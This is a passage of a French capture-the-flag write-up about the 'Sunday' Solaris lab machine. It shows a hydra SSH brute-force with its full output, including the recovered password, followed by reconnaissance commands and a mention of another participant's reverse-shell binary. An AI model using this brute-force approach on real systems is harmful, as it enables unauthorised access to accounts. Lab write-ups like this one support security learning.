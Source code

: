 Les IPs sont celles d'autres participants. L'emplacement du home de l'utilisateur laisse penser que son dossier est exporté via NFS.  

Faute de mieux on brute-force le compte et on se trouve un peu bête devant le mot de passe trouvé :  

```console
devloop@kali:~$ hydra -l sunny -P /usr/share/ncrack/top50000.pwd ssh://10.10.10.76:22022
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-06-14 21:30:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50084 login tries (l:1/p:50084), ~3131 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[STATUS] 484.00 tries/min, 484 tries in 00:01h, 49600 to do in 01:43h, 16 active
[STATUS] 488.33 tries/min, 1465 tries in 00:03h, 48619 to do in 01:40h, 16 active
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-06-14 21:35:16
```

On obtient alors notre accès sur la machine, mais pas encore de flag.  

```console
sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris

sunny@sunday:~$ w
  9:37am  up  2:20,  6 users,  load average: 0,71, 1,73, 1,30
User     tty           login@  idle   JCPU   PCPU  what
sunny    pts/2         7:18am     1                -bash
sunny    pts/3         7:31am    59      4         -bash
sunny    pts/4         8:23am     3      5      4  vim
sammy    pts/5         9:08am            4         crontab
sunny    pts/7         9:35am                      -bash
sunny    pts/8         9:35am                      w
```

Je trouve quelques fichiers bizarres sur la machine :  

```console
sunny@sunday:~$ file ./Desktop/core
./Desktop/core: ELF 32-bit LSB core file 80386 Version 1, from 'packagemanager'
sunny@sunday:~$ file ./Downloads/reverse.solaris.x86.1337.elf
./Downloads/reverse.solaris.x86.1337.elf:       ELF 32-bit LSB executable 80386 Version 1, statically linked, stripped
```

Le second est potentiellement le reverse-shell d'un autre participant. Quant au core dump on laisse de côté pour le moment.  

Il y a un programme utilisable via sudo mais qui ne semblait pas exploitable via des failles classiques :  
